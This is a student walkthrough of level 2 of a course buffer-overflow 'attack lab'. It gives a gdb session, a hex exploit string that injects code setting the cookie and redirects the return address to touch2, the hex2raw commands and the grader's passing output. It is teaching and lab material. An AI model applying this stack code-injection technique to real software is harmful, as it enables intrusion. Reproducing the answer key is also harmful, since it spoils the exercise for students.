 ```
(gdb) b getbuf
Breakpoint 1 at 0x40194d: file buf.c, line 12.
(gdb) r -q
Starting program: /home/2018080106/ctarget -q
Cookie: 0x117fd061

Breakpoint 1, getbuf () at buf.c:12
12      buf.c: Permission denied.
(gdb) n
14      in buf.c
(gdb) p $rsp
$1 = (void *) 0x55612538
```

0x55612538 is the address we want, now create a text file named phase2.txt, remember that the bytes for rsp and touch2 go in reverse. 

phase2.txt
``` 
48 c7 c7 61 d0 7f 11 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
38 25 61 55 00 00 00 00
8f 19 40 00 00 00 00 00
```

tbe first row sets your cookie
the zeroe's are padding to make it 56 bytes
second to last line is address of register %rsp
last line is address of touch2 function

now we run it through hex2raw, using the following commands
```
linux> quit
linux> y
linux> ./hex2raw < phase2.txt > 2018080106.ctarget.l2
linux> ./ctarget -q -i 2018080106.ctargetl2
```
you shoud get the following result

```
Cookie: 0x117fd061
Touch2!: You called touch2(0x117fd061)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id NoOne
        course  15213-f15
        lab     attacklab
        result  2018080106:PASS:0xffffffff:ctarget:2:48 C7 C7 61 D0 7F 11 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 38 25 61 55 00 00 00 00 8F 19 40 00 00 00 00 00
```
